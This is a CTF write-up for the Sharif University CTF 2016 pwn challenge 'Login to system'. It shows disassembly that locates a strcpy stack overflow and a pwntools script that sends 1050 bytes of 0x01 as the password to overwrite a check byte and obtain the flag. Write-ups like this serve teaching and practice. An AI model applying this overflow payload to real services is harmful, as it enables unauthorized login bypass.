 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: Login to system (pwn 100)"
author: f0rki
categories: writeup
tags: [cat/binary, tools/pwntools]
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Download Question.zip


## Write-up

The binary we were given was a threaded TCP server. The connection handling
function is at `0x00400de4`. It asks for username and password. The goal is to
login without username/password. The following piece of code checks whether a
a byte on the stack is `0x01` and then executes code that apparently reads the
flag and sends it to us.

```
│           0x00400f91      488d45e0       lea rax, [rbp-local_4]
│           0x00400f95      0fb600         movzx eax, byte [rax]
│           0x00400f98      3c01           cmp al, 1
```

Fortunately right before this check there is a call to strcpy:

```
│           0x00400f78      488d95d0fbff.  lea rdx, [rbp-local_134]
│           0x00400f7f      488d8520fbff.  lea rax, [rbp-local_156]
│           0x00400f86      4889d6         mov rsi, rdx
│           0x00400f89      4889c7         mov rdi, rax
│           0x00400f8c      e80ffcffff     call sym.imp.strcpy
```

So a stack based buffer overflow and overwriting a local variable. This is
easy. With a quick `pwntools` script we are able to get the flag:


```
from pwn import *  # NOQA

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"

vulnbin = "./Question"
velf = ELF(vulnbin)
vp = remote("ctf.sharif.edu", 27515)

username = "yomama"
password = "\x01" * 1050

x = vp.recvuntil("enter:")
assert "username" in x
vp.sendline(username)
x = vp.recvuntil("enter:")
assert "password" in x
vp.sendline(password)

with context.local(log_level='debug'):
    vp.clean_and_log()

vp.interactive()
```
